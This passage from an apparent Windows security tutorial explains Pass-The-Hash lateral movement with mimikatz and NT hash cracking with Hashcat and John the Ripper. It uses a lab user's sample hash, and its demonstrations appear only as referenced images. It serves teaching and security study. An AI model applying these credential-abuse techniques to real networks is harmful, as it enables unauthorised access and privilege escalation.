As explained before in the Single-Sign-On section **lsass** stores credentials in memory, that way performing authentication to a network resource is possible without reentering credentials because **lsass** will try using the one's it has in memory. Thus, if you pwn a machine and dump hashes and another machine in the network uses the same password you don't need to crack the hash, that hash can be used to pivot and move laterally -and vertically if the user is privileged on the target machine- on the network performing a **Pass-The-Hash** attack. In the following figure a **Pass-The-Hash** example using **mimikatz** is performed from the attacker machine. Remember that we dumped the user **Peter** NT hash previously: 7ce21f17c0aee7fb9ceba532d0546ad6.

[](../../assets/img/playing-win-sec/mimikatz-pth.gif){:target="\_blank"}

Mimikatz inyected at **lsass** memory the credentials of ther user **Peter** and launched a new cmd with that access token, when trying to list the C drive in the background the NTLM authentication took place and because we have the correct NT hash NTLM authentication was successful, listing the contents of the C drive and viwing the content of "test.txt".

# Cracking hashes
Famous bruteforce tools like **Hashcat** or **John the Ripper** can crack hashes or NTLM authentication responses.

**Hashcat** example of cracking the NT hash of user **Peter**:
[](../../assets/img/playing-win-sec/hashcat-crack.png){:target="\_blank"}

**John** example of cracking the NT hash of user **Peter**:
[](../../assets/img/playing-win-sec/john-crack.png){:target="\_blank"}

# Conclusion
Having a hash on a Windows environment with NTLM authentication enabled is almost always equivalent to having a password, PTH is so effective to perform lateral movement on a Windows network and even escalate privileges if some user with higher privileges is reusing a password. In the next part we will study Kerberos key concepts and attacks to that authentication protocol: Overpass-The-Hash, Pass-The-Ticket, Golden Ticket, Silver Ticket, Kerberoasting and AS-Reproasting.